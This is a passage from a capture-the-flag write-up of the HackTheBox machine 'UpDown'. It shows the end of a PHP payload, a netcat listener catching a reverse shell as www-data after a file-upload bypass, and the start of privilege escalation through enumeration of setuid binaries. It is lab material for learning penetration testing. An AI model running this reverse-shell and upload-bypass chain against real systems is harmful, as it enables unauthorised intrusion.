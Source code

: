 	// read the output from the engine
	$html = stream_get_contents($pipes[1]);
	
	// all done! Clean up
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($p);
	?>
	http://example.com
	http://example.com
	http://example.com
	more URLs
	```
8. `www-data` shell obtained
	```
	┌──(root💀kali)-[~/htb/UpDown/10.10.11.177/exploit]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 10.10.11.177.
	Ncat: Connection from 10.10.11.177:58708.
	/bin/sh: 0: can't access tty; job control turned off
	$ id;whoami
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	www-data
	$
	```
9. Demo - File Upload Bypass -> Invoke Reverse Shell
	![](4Z2LDNwDu5.gif)



# Privilege Escalation

## Developer - Enumeration
1. Enumerate the system for files w/ setuid bit
	```
	www-data@updown:/tmp$ find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null
	-rwsr-xr-- 1 root messagebus 51344 Apr 29 12:03 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
	-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
	-rwsr-xr-x 1 root root 22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
	-rwsr-xr-x 1 root root 473576 Mar 30  2022 /usr/lib/openssh/ssh-keysign
	-rwsr-xr-x 1 root root 53040 Mar 14  2022 /usr/bin/chsh
	-rwsr-xr-x 1 root root 67816 Feb  7  2022 /usr/bin/su
	-rwsr-xr-x 1 root root 39144 Feb  7  2022 /usr/bin/umount
	-rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
	-rwsr-xr-x 1 root root 88464 Mar 14  2022 /usr/bin/gpasswd
	-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
	-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
	-rwsr-xr-x 1 root root 68208 Mar 14  2022 /usr/bin/passwd
	-rwsr-xr-x 1 root root 44784 Mar 14  2022 /usr/bin/newgrp
	-rwsr-xr-x 1 root root 85064 Mar 14  2022 /usr/bin/chfn
	-rwsr-xr-x 1 root root 55528 Feb  7  2022 /usr/bin/mount
	-rwsr-x--- 1 developer www-data 16928 Jun 22 15:45 /home/developer/dev/siteisup
	```
	> `/home/developer/dev/siteisup` - user `developer` setuid bit
	{: .prompt-info }
2. View contents of `/home/developer/dev/siteisup` w/ `strings`
	```
	...SNIP...
	Welcome to 'siteisup.htb' application